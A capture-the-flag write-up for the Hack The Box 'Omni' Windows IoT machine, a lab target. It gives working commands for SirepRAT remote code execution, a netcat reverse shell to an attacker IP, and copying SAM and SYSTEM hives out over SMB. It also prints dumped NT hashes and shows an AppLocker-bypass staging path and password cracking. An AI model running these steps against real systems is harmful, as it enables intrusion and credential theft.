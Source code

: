 ![](Assets/HTB-Windows-Easy-omni/547286d87bae2e17e0694432b7e4b920.webp)

# Writeup of _OMNI_

#### Easy machine (hackthebox.com)

#### Sylvain (Javali) Júlio - 08/09/2021

---

---


# Enumeration

## Nmap

For enumeration, after verifying the connection, I always do a nmap scan like this:

![allPorts Scan](Assets/HTB-Windows-Easy-omni/allPorts.png) ![nmap-A](Assets/HTB-Windows-Easy-omni/nmap-A.png)

At this point, we know:

-   Port 135 Open: MSRPC is an interprocess communication (IPC) mechanism that allows client/server software communcation
-   Port 8080 open: Basic realm=Windows Device Portal - The Windows Device Portal (WDP) is a web server included with Windows devices that lets you configure and manage the settings for the device over a network or USB connection.  Access to port 8080 from the web browser is restricted by basic authentication

![Login 8080](Assets/HTB-Windows-Easy-omni/login_8080.png)

After some researches, if we google for _"Windows Device Portal exploit github"_, we can find this tool:

> SirepRAT - RCE as SYSTEM on Windows IoT Core - GitHub (https://github.com/SafeBreach-Labs/SirepRAT)

![Windows IoT Core](Assets/HTB-Windows-Easy-omni/win_IoT_Core.jpg)

# Exploitation

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT

sudo python3 setup.py install

# The syntaxt is a bit hard... but the github page as a lot of examples...
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```

The command give us an output that looks good. But we can confirm if we have RCE with a better combo!

```bash
# Listening for pings
sudo tcpdump -i tun0 icmp

# Run RCE on the target machine to ping my kali machine
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.16"
```

![RCE Ping](Assets/HTB-Windows-Easy-omni/ping_RCE.png) ![RCE Ping - TCPDump listener](Assets/HTB-Windows-Easy-omni/tcpdump_ping_RCE.png)

At this point, we know we have effectively RCE. So, the next step is to get a reverse shell

-   I tryied Certutil but don't work (don't existe)
-   I tryied with IEX but don't work too (don't exist')
-   I create a smbserver, wget a netcat (nc64.exe) on my kali
-   Prepare the listener to receive the reverse shell _(sudo rlwrap nc -lvnp 443)_

```bash
# SMB Server
sudo smbserver.py smbFolder $(pwd) -user javali -password javali -smb2support

# NC listener
sudo rlwrap nc -lvnp 443

# Get Reverse shell
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c net use \\10.10.14.16\smbFolder /u:javali javali'

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c \\10.10.14.16\smbFolder\nc64.exe -e cmd 10.10.14.16 443'
```

We are in the target machine! 

![ipconfig](Assets/HTB-Windows-Easy-omni/ipconfig.png)

# Privesc

## Enumeration of the System.

On all CTF, the objective is to get flag (close to always user.txt and root.txt)

If we have permitions, we can find this with a simple command:

```bash
cd C:\
dir /r /s user.txt  # user.txt : C:\Data\Users\app
dir /r /s root.txt  # root.txt : C:\Data\Users\administrator

icacls C:\Data\Users\app\user.txt  # NT AUTHORITY\SYSTEM:(I)(F)
								   # BUILTIN\Administrators:(I)(F)
                                   # OMNI\app:(I)(F)

icacls C:\Data\Users\administrator\root.txt  # NT AUTHORITY\SYSTEM:(I)(F)
                                             # BUILTIN\Administrators:(I)(F)
                                             # OMNI\Administrator:(I)(F)
```
 At this point, we suppose we have to migrate at the user app, or directly at administrator... We don't know what privilege we have, but we know with SAM and SYSTEM files, we can extract all NT hash from all LOCAL users of the target machine. We give a try...

 ```bash
reg save HKLM\SYSTEM SYSTEM.bak  # The operation completed successfully.
reg save HKLM\SAM SAM.bak        # The operation completed successfully.

# Download that files with smbserver
copy .\SAM.bak \\10.10.14.16\smbFolder\SAM.bak
copy .\SYSTEM.bak \\10.10.14.16\smbFolder\SYSTEM.bak

# On kali machine, extract data
secretsdump.py -sam SAM.bak -system SYSTEM.bak LOCAL
#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>  
#>  [*] Target system bootKey: 0x4a96b0f404fd37b862c07c2aa37853a5
#>  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
#>  Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
#>  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#>  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
#>  sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
#>  DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
#>  app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
#>  [*] Cleaning up...
 ```

Now, with all that hashes, we can try to crack them with john the ripper, and rockyou.txt

```bash
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:330fe4fd406f9d0180d67adb0b0dfa65:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:91ad590862916cdfd922475caed3acea:::
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::" > hashes

john --wordlist=/usr/share/wordlists/rockyou.txt --format=nt hashes
john --format=NT --show hashes  # app:mesh5143
```

I tryied to Invoke_Command with the credentials we get but dont worked... So i tried to login into the website at port 8080

![http logged](Assets/HTB-Windows-Easy-omni/http_logged.png)

![RCE website](Assets/HTB-Windows-Easy-omni/RCE_website.png)

We can execute commands directely with Windows Device Portal. But it's always better get a real reverse shell...
We can't do the same with smbserver, but we can transfere nc64.exe to the target. I always choose C:\Windows\System32\spool\drivers\color\ path because is nearly never blocked (applocker bypass)...

```bash
# On reverse shell with user omni
copy \\10.10.14.16\smbFolder\nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe

# On website with user app
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

## User "app"

In the home directory of "app", we can see the user.txt, but we can see another strange file: iot-admin.xml.
The file looks like this:

![ss-files](Assets/HTB-Windows-Easy-omni/SS-file.png)

This file is a Powershell Credential. to extract the "Password" field, we can do that:

```bash
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential().password
#> _1nt3rn37ofTh1nGz
# This maybe is the password of administrator.
# administrator:_1nt3rn37ofTh1nGz

# with the same process (because root.txt, user.txt and iot-admin.xml are all Powershell Credentials), we can extract the user.txt flag:
(Import-CliXml -Path user.txt).GetNetworkCredential().password
# 7cfd50f6bc34db3204.............. 
```

With new credential, we can login on website as user administrator

![web administrator logged](Assets/HTB-Windows-Easy-omni/web-administrator.png)

Now we can get reverse shell with the same nc64.exe we download before

```bash
C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443
```

![administrator reverse shell](Assets/HTB-Windows-Easy-omni/administrator-reverse-shell.png)

For the flag, we use the same tecnic to extract the password of the Powershell Credential:

```bash
type root.txt  # Props are the same 'UserName' and 'Password'
(Import-CliXml -Path root.txt).GetNetworkCredential().Password
#> 5dbdce5569e2c47.................

```
